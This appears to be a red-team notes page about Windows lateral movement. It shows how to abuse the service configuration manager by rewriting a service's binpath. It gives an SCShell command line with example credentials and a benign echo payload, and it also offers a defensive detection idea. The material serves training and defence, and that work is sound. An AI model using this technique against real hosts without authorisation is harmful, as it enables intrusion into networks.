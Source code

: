 # Lateral Movement Abusing Service Configuration Manager

It's possible to execute commands on a remote host by abusing service configuration manager by changing the service binpath to your malicious command and restarting the service so your payload gets executed - this is all automated by a nice tool [SCShell](https://github.com/Mr-Un1k0d3r/SCShell)

## Execution

Scshell expects the following arguments: target, service, payload, username, domain, password:

{% tabs %}
{% tab title="attacker@target" %}
```text
.\scshell.exe ws01 XblAuthManager "C:\windows\system32\cmd.exe /c echo 'lateral hello' > c:\temp\lat.txt" spotless offense 123456
```
{% endtab %}
{% endtabs %}

![](../../.gitbook/assets/scshell.gif)

## Considerations

From the defensive side, you may want to consider about monitoring services that change their binPaths "too often" as this may not be normal in your environment, especially if the binPath is "very" different \([Levenshtein](https://www.google.com/search?q=levenshtein+distance&oq=levensht&aqs=chrome.1.69i57j0l5.2647j0j7&sourceid=chrome&ie=UTF-8)\) to the previously known good value and if the service configuration is being changed over the network:

![](../../.gitbook/assets/image%20%28475%29.png)

## References

{% embed url="https://github.com/Mr-Un1k0d3r/SCShell" %}

